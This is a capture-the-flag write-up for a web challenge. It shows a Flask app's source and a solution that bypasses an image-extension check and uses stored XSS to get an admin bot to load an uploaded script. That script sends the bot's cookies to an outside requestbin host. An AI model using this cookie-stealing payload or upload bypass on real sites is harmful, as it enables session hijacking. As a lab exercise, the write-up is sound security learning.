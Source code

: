 # Description
Hello fellow Donut Earther! Check out this neat site that forwards our cause! The thing is, we think that the admin is actually a flat earther. Think you can figure it out?

http://the-truth.hackers.best:31337/

Note: Ignore the session key, it's only present for challenge functionality. Also, if you have a working exploit, you might have to try more than once :)

![image](https://user-images.githubusercontent.com/101048320/234419763-554400cf-bc68-4abd-8fdc-cde63efac571.png)

# Solution
## Recon 

- After navigating to the link provided, we are greeted with this webpage : 

![image](https://user-images.githubusercontent.com/101048320/234424415-f255a5b4-53fb-4e65-bb31-763df1afbc0e.png)

- We can see a comment section at the bottom of the page, with a `waive admin` button : 

![image](https://user-images.githubusercontent.com/101048320/234424607-19d9aa4a-6360-43bc-8cda-98f8ca6d6717.png)

- This already looks sus, maybe XSS ? CSRF ? keep that for later.

- We can also see an upload section to upload our images :

![image](https://user-images.githubusercontent.com/101048320/234424836-e14e4464-cd3c-482b-bf86-f2fb3a6336be.png)

- If we try to upload an image, it gets saved in the `/images` directory, also, we can't upload files except for png, jpg, jpeg and gif. So this already gives me a hint that I should bypass it.

- Viewing the page source, we see this :

![image](https://user-images.githubusercontent.com/101048320/234425232-a16601e7-f9fa-491a-8092-e90f5e5cf04c.png)

- Okay so we have the source code for the webapp, let's check it out : 
```python
#https://www.w3schools.com/howto/howto_css_blog_layout.asp
#https://flask.palletsprojects.com/en/latest/patterns/fileuploads/
import os
import redis
import subprocess
from uuid import uuid4
from flask import *
from flask_limiter import Limiter
from flask_limiter.util import get_remote_address
from flask_socketio import SocketIO, emit
from werkzeug.utils import secure_filename

UPLOAD_FOLDER = os.path.abspath('../') + '/images/'
ALLOWED_EXTENSIONS = {'png', 'jpg', 'jpeg', 'gif'}

app = Flask(__name__)

limiter = Limiter(
	get_remote_address,
	app=app,
	default_limits=["30 per minute"]
)

app.config['UPLOAD_FOLDER'] = UPLOAD_FOLDER
app.config['SECRET_KEY'] = 'secret!'

socketio = SocketIO(app)

comments = []

def allowed_file(filename):
   return '.' in filename and filename.rsplit('.')[1].lower() in ALLOWED_EXTENSIONS

@app.after_request
def add_security_headers(resp):
	resp.headers['Content-Security-Policy']="default-src 'self' https://*.jquery.com https://*.cloudflare.com;  object-src 'none';"
	return resp

@socketio.on('submit comment')
def handle_comment(data):
	comments.append("<p class=\"comment\"><strong>" + data['author'] + ":</strong> " + data['comment'] + "</p>");
	emit('new comment', broadcast=True)

@socketio.on('waive admin')
def waive_admin():
	subprocess.run(['python','admin.py'])

@app.route('/', methods=['GET'])
def news():
	if 'flag' in request.cookies:
		return render_template('/news.html', comments=comments)
	else:
		resp = make_response(render_template('/news.html', comments=comments))
		resp.set_cookie('flag','if only you were the admin lol')
		return resp

@app.route('/upload', methods=['GET','POST'])
def upload():
	if request.method == 'POST':
		if 'file' not in request.files:
			flash('No file part')
			return render_template('/upload.html',message='No file uploaded :(')
		file = request.files['file']
		if not file:
			flash('No file data')
			return render_template('/upload.html',message='No file uploaded :(')
		if file.filename == '':
			flash('No selected file')
			return render_template('/upload.html',message='Filename can\'t be empty, silly!')
		if allowed_file(file.filename):
			filename = session['uuid'] + secure_filename(file.filename)
			print(filename)
			file.save(os.path.join(app.config['UPLOAD_FOLDER'], filename))
			return render_template('/upload.html',message=f'Image uploaded successfully to /images/{filename}!')
		else:
			return render_template('/upload.html',message='Bad file type detected! Only .png, .jpg, .jpeg, and .gif allowed!')
	return render_template('/upload.html')

@app.route('/images/<name>', methods=['GET'])
def download_file(name):
	return send_from_directory(app.config["UPLOAD_FOLDER"], name)


@app.route('/source',methods=['GET'])
def show_source():
	return render_template('server_code.py')

if __name__=='__main__':
	app.run(host="0.0.0.0",port=31337)
```

- We notice that it's a flask app, something that directly catches my attention is this function : 
```python
def allowed_file(filename):
   return '.' in filename and filename.rsplit('.')[1].lower() in ALLOWED_EXTENSIONS
```

- To those of you who don't know, the `rsplit()` function in python takes two optional arguments : the split character, and the number of occurances.By default, this latter takes the value of -1, which means it will split the string in all occurances. This is so insecure because the function will now only check for the first occurance of an allowed extension, which means a file named `file.png.js` is allowed.

- We can also see that the cookie is set to `flag="if only you were the admin lol"` alongside with a session ID, a clear hint that the flag will be in the cookie.

![image](https://user-images.githubusercontent.com/101048320/234427449-5e0fa8fe-2432-4621-82bd-df69ab9d78c1.png)


- Another interesting code portion is this : 
```python
@app.after_request
def add_security_headers(resp):
	resp.headers['Content-Security-Policy']="default-src 'self' https://*.jquery.com https://*.cloudflare.com;  object-src 'none';"
	return resp
```

- The app is using a CSP header, with anything from self, jquery and cloudflare. After checking https://book.hacktricks.xyz/pentesting-web/content-security-policy-csp-bypass#file-upload-+-self, we find that it's vulnerable to XSS. Bingo!

- Our plan now is to upload a JavaScript payload that points to a host we control, and then we trigger it using XSS and `waive admin`, the cookie should be the flag

## Execution 

- I wrote this code and saved it in a file called `info.png.js` : 
```javascrpt
document.location = "https://enjodxcp8qx8.x.pipedream.net?cookie=" + document.cookie;       
```

- The link points to my host on requestbin, so I'm ready to receive any request made to it

- Then I uploaded the file : 

![image](https://user-images.githubusercontent.com/101048320/234427785-601c3da8-9929-437c-8f51-5097c3bd9f63.png)

- Now, to trigger the xss, all I needed to do is to use this payload inside the comment body and press `waive admin` : 
```html
"/>'><script src="/images/4a053dda-192a-47bc-9986-4eb911b8fe3dinfo.png.js"></script>
```

- Now if we check our host on requestbin, we get : 

![image](https://user-images.githubusercontent.com/101048320/234428302-9b24d7c6-ef46-4742-9c0d-2ae96c757194.png)


# Flag

shctf{w3_a11_l1v3_und3r_th3_DOMe}







